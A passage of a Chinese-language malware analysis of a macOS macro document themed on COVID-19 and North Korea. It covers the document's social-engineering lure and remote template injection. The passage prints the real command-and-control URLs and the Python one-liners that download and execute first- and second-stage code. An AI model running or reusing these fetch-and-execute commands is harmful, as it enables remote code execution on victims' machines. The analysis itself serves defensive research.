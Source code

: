 

## 三.MacOS平台的样本分析:

### <a class="reference-link" name="1.COVID-19%20and%20North%20Korea.docx(COVID-19%E4%B8%8E%E6%9C%9D%E9%B2%9C.docx)"></a>1.COVID-19 and North Korea.docx(COVID-19与朝鲜.docx)

#### <a class="reference-link" name="0x00.%20%E6%A0%B7%E6%9C%AC%E4%BF%A1%E6%81%AF"></a>0x00. 样本信息

[![](https://p0.ssl.qhimg.com/t01968fe1e37740994d.png)](https://p0.ssl.qhimg.com/t01968fe1e37740994d.png)

#### <a class="reference-link" name="0x01%20%E6%A0%B7%E6%9C%AC%E5%88%86%E6%9E%90"></a>0x01 样本分析

该样本是docx文件,攻击者运用**社会工程学**的手法,设置了一张在`MAC`系统启动宏文档的图片,来诱导受害者点击启动宏,**当受害者启动宏后该样本就会移除图片显示出文档的内容**

[![](https://p4.ssl.qhimg.com/dm/1024_558_/t012ac6c8505fd3b5e1.png)](https://p4.ssl.qhimg.com/dm/1024_558_/t012ac6c8505fd3b5e1.png)

由此可见,我们可以看到该样本与**新型冠状病毒**的话题有关,可能针对的是**韩国的政府机构**

该样本利用**远程模板注入技术**对远程模板进行加载

远程模板URL:”`http://crphone.mireene.com/plugin/editor/Templates/normal.php?name=web`“

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_490_/t01487ffaaafd3f7654.png)

宏代码会将之前遮盖的部分显示,用以迷惑受害者,相关代码:

[![](https://p3.ssl.qhimg.com/t0152313dedabf5f350.png)](https://p3.ssl.qhimg.com/t0152313dedabf5f350.png)

该样本会判断是否是`MAC`系统,若是`MAC`系统就会执行`python`命令下载第一阶段的`python`代码

命令为:

```
python -c exec(urllib2.urlopen(urllib2.Request('http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=v1')).read())
```

[![](https://p5.ssl.qhimg.com/dm/1024_143_/t01dde983ec142d8a50.png)](https://p5.ssl.qhimg.com/dm/1024_143_/t01dde983ec142d8a50.png)

第一阶段的`python`代码主要起到一个中转的作用

其会执行如下代码去加载第二阶段的`python`代码:

```
urllib2.urlopen(urllib2.Request('http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=v60')).read()
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/dm/1024_237_/t01d5082591b92b9f7e.png)
